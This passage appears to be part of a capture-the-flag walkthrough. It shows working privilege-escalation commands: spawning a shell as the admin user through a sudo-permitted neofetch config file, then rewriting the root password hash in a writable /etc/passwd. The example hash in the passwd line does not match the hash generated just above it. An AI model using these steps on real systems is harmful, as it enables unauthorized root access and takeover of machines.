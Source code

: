  Using GTFObins [GTFOBins](https://gtfobins.github.io/) will reveal that we can use neofetch to execute commands, in this case as the admin user:

 ```sh
 TF=$(mktemp)
 echo 'exec /bin/sh' > $TF
 sudo -u admin /usr/bin/neofetch --config $TF
```

Running the above will give us this error:
```
/usr/bin/neofetch: line 4459: /tmp/tmp.3zspa9Sl2D: Permission denied
```
To fix this, take the file name and give it 777 permissions, then rerun the final command.

```sh
chmod 777 /tmp/tmp.3zspa9Sl2D
sudo -u admin /usr/bin/neofetch --config $TF
```

This will give us a basic sh shell. To get a better one, just run the command "bash"

### user.txt

Changing directoy to admin's home directory will give us user.txt

### root.txt

Running [linpeas](https://github.com/peass-ng/PEASS-ng/releases/download/20241101-6f46e855/linpeas.sh) will reveal that the admin account is in the root user group. It also means that the misconfigured /etc/passwd file with root write permissions on the group can be edited. If you change the password in the passwd file it overrides the shadow file. A passwd compatible file can be generated with the following command.

```sh
openssl passwd password
v/FfoSzTu1u3A
```

Putting this password where the x is in passwd will mean you can login as the root account with the password "password".

```
# Line in the passwd file
root:6ef0MSVG45YyQ:0:0:root:/root:/bin/bash
```

Change to /root and then you have root.txt